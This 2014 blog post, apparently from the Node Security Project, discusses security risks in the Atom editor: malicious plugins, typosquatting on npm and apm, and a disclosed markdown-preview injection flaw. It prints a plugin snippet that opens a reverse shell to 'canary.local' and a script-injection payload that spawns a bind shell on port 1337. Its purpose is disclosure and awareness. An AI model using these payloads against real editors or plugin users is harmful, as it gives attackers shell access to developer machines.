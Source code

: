 #date: 2014-03-02 00:04:34 GMT
#slug: of-atom.io-and-security
#tags: security, atom.io, nodesecurity, node.js, apm, npm
#title: of atom.io and security
#type: text


Like many of you, I recently received an invite to atom.io, GitHub's new text editor.

Atom embraces everything that I love about node.js: easy creation, hackability, distribution, and installation of small modules. 

It also brings with it some of the same types of security concerns.

Shortly after downloading and playing with the app I posted this in [andbang](http://andbang.com) (our team collaboration tool):

"my first atom.io plugin, am I doing it right?"
```
var shells = require('node-shells');
module.exports.activate = function () {
    shells.reverseShell('canary.local', '1234');
}
```

Shortly after, my coworker Stephanie said to me: "You just can't help but hack all the things, can you?" 

No. No, I can't.

That's a simple plugin that when you install it it makes a connection back to my computer. 
Now, no sane developer would install that knowing what it does, but be honest: an attacker is not going to be that obvious and no matter how big our egos are, we all know we make stupid mistakes.

## Every strength comes with a weakness
Atom is designed for hackabililty, to run plugins and code written by you and the greater development community.

My concerns are the unintended side effects of having plain text and code executing in an environment that's a central tool for our day-to-day workflow.

Securing common developer endpoints is hard enough on its own. 

Now we have to verify the security of each module installed in our developers' text editor for seemingly benign things like syntax highlighting, coding efficiency or collaboration, or any number of awesome inventions the dev community dreams up.

## apm brings with it security concerns from npm
I did some research a while back on npm typos: packages a developer attempted to install, but couldn't because they got the name wrong.

Turns out we are measurably bad at punctuation when remembering package / module names.

The modules most commonly typed wrong were the ones with punctuation in them: "socketio" vs. "socket.io", "coffeescript" vs. "coffee-script", and so on.

This is going to happen with apm.

Malicious plugins will be created, they'll squat on commonly typo'd names, and it will be a problem.
It will be a pain in the ass to police as well. The same problem exists within npm, where we rely on the community to police it at the moment. 

It took the community a week to ask me to take down my fake "coffeescript" module that was blank. Had it replicated the functionality of a working module, I imagine it would still be up there today.

## This isn't your grandmothers DOM.
The next issue I see is that getting content injection within the atom.io editor means code execution with all the awesome power of node.js.

According to their [security page](https://github.com/rogerwang/node-webkit/wiki/Security), node-webkit has 2 frame types: Node frames and normal frames. It's the Node frame that gives us the extended power of node.

I was able to exploit this just hours after the release using the built-in markdown preview plugin (the one that's mentioned in the welcome text).

A month ago I published an [advisory for marked](https://nodesecurity.io/advisories/marked_multiple_content_injection_vulnerabilities), a popular module for parsing markdown. 

Turns out the markdown-preview plugin was using the rooster module that included a vulnerable version of marked. 

Small modules are nice, but everyone in the chain has to do their part to make sure things are secure and up to date.

I disclosed this vulnerability to GitHub and, as of atom 0.62.0, the included markdown-preview plugin appears to be fixed.

Here was the exploit for a quick bindshell:

    ```"><script>net=require('net');cp=require('child_process');server=net.createServer(function(c){sh=cp.spawn('sh',['-i']);c.pipe(sh.stdin);sh.stdout.pipe(c);});server.listen(1337);</script>
    this is a test
    ```

I want to make it very clear that I love the editor and am in no way casting it aside just because of a few security concerns. (I don't tend to think of security as something that should hold back developers from building amazing and useful things, but rather, an essential component of that creativity.)

However, it does make me pause and think about the mounting concerns with securing developer endpoints that I'm not sure the answers are keeping up with.

## This is what the Node Security Project is about

atom.io reinvigorates our team's belief in why we started the Node Security Project.

Our only chance to rise above the bad guys is to approach leveling up the security of the entire community in a highly distributed way. It's the only way we'll be able to handle security in this new era of massive modularity and code reuse.

We have some big plans for Node Security Project for 2014 and we'd love to have your help as we begin to roll those out in the coming months.

Give us a follow on twitter for project updates. [@nodesecurity](https://twitter.com/nodesecurity)

